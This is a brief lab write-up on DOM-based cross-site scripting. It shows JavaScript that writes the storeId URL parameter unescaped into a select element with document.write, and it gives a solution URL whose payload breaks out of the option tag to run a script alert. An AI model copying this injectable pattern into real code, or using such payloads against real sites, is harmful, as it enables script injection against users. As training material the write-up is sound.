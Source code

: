 # Lab: DOM XSS in document.write sink using source location.search inside a select element
## Description

The vulnerable JS code:
```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
	document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
	if(stores[i] === store) {
		continue;
	}
	document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```

## Solution

`/product?productId=2&storeId=lort</option><script>alert(1)</script><option>`

